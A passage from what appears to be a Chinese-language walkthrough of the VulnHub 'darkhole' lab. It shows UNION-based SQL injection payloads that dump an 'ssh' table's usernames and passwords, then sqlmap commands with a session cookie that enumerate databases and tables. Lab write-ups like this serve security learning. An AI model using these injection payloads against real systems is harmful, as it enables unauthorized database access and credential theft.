 
#### 爆出ssh表中的元组

查看`ssh`表中的元组

```sql
id=-1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='ssh'--+
```

发现`user、pass、id`

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-8.jpg)



#### 爆出ssh表中的数据

获取数据

```sql
id=-1' union select 1,2,3,4,group_concat(id,'||||',user,'||||',pass),6 from ssh--+
```

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-9.jpg)



**得到用户名`jehad`和密码`fool`。**

ok，到这里，我要说一下，其实我的浏览器可以显示，不过这样对于`burp`的使用，不是更好了吗

附上浏览器最终结果，表示我测试过

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-10.jpg)



### sqlmap测试

使用`sqlmap`测试，这里需要注意，前面进行登录后才存在的注入，这里需要进行认证，也就是需要带着`cookie`进行测试才行

#### 爆库

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i --dbs --batch
```

![](D:\stu\vulnhub\darkhole靶场\pic-2\9.jpg)



#### 爆表

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i -D darkhole_2 --tables --batch
```

![](D:\stu\vulnhub\darkhole靶场\pic-2\9-1.jpg)
